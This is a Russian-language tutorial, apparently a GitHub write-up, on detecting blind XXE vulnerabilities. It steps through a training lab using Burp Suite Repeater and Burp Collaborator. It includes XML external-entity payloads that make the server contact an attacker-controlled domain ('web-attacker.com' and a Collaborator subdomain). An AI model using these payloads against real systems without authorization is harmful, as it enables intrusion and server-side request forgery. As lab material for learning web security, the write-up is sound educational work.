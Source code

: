 # Эксплуатация XXE для извлечения файлов, выполнения SSRF и работы со слепым XXE 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера, выполнять атаки SSRF, а также использовать «слепые» уязвимости XXE. Это руководство охватывает все эти сценарии с подробными примерами. 💡

---

## Часть 1: Что такое слепой XXE?

Blind XXE (слепой XXE) возникает, когда приложение уязвимо для внедрения XXE, но не возвращает значения внешних сущностей в ответах. Это делает прямое извлечение данных невозможным, и такие уязвимости сложнее эксплуатировать, чем обычные XXE.

### Основные способы обнаружения и эксплуатации слепого XXE:

1. Инициирование внеполосных сетевых взаимодействий (OAST), иногда позволяющих извлечь конфиденциальные данные из таких взаимодействий.
2. Провоцирование ошибок анализа XML, содержащих конфиденциальные данные в сообщениях об ошибках.

### Обнаружение слепого XXE с использованием внеполосных методов

Для обнаружения слепого XXE можно инициировать внеполосное сетевое взаимодействие с системой, которую вы контролируете. Например:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Используйте определённую сущность в значении данных в XML. Этот подход заставляет сервер выполнять HTTP-запрос на указанный URL, а злоумышленник может отслеживать результат — DNS-запрос и HTTP-запрос.

---

## Пример лабораторной работы

В лабораторной работе функция «Проверка запасов» анализирует входные XML-данные, но не отображает результат. Вы можете обнаружить слепую уязвимость XXE, инициировав взаимодействие с внешним доменом.

### Шаги выполнения

### 1. Выбор продукта
Откройте список продуктов и выберите любой из них:

![Список продуктов](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Нажатие кнопки
На странице продукта нажмите кнопку **"Проверить наличие на складе"**, предварительно включив прокси (например, Burp Suite):

![Кнопка проверки наличия](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Перехват запроса
Зайдите в **Proxy → HTTP History**, выберите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/1b91cebe-7063-460d-93aa-b390c6a4df26)

---

### 4. Внедрение нагрузки 🚀

Добавьте следующее определение внешней сущности между декларацией XML и элементом `stockCheck`. Используйте **Burp Collaborator** для вставки своего поддомена в место `BURP-COLLABORATOR-SUBDOMAIN`:
```xml
<!DOCTYPE stockCheck [ <!ENTITY eyes SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

Замените значение `productId` на `&eyes;`:

![Внедрение Collaborator](https://github.com/user-attachments/assets/e517ef38-cf10-47cb-8080-4a6446ee6367)

---

### 5. Проверка Collaborator
Перейдите на вкладку **Collaborator** и нажмите **"Poll now"**. Если взаимодействия не отображаются, подождите несколько секунд и повторите. Вы должны увидеть записи о DNS- и HTTP-взаимодействиях, инициированных приложением в результате вашей нагрузки.
